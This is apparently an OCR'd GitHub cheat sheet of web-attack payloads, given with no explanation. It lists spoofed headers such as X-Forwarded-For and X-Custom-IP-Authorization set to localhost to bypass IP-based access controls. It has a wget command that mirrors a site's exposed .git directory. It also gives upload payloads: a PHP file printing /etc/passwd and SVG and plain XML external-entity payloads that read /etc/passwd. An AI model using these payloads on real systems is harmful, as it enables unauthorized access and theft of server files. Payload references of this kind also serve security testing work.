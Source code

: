 /// with headers // localhost, 127.0.0.1, 127.1
X-Custom-IP-Authorization: 127.0.0.1
X-Custom-IP-Authorization: 127.1
X-Custom-IP-Authorization: localhost
Host: 127.0.0.1
Host: 127.1
Host: localhost
X-Forwarded-Host: 127.0.0.1
X-Forwarded-Host: 127.1
X-Forwarded-Host: localhost
X-Forwarded-Scheme: 127.0.0.1
X-Forwarded-Scheme: 127.1
X-Forwarded-Scheme: localhost
X-Forwarded-For: 127.0.0.1

X-Forwarded-For: 127.1
X-Forwarded-For: localhost
X-Host: 127.0.0.1
X-Host: 127.1
X-Host: localhost


/// NULLbytes



/// Download git and use apt-get install git-cola
wget -r wedsite.com/.git


/// file upload
=====
with exploit.php
<?php echo file_get_contents('/etc/passwd'); ?> 

=====
xml.svg
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [ <!ENTITY fetch SYSTEM "file:///etc/passwd">]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size=“23" x=“8" y=“28">&fetch;</text>
</svg>

=====
simple xml xxe
<!DOCTYPE hack [ <!ENTITY fetch SYSTEM "file:///etc/passwd">]>
&fetch;

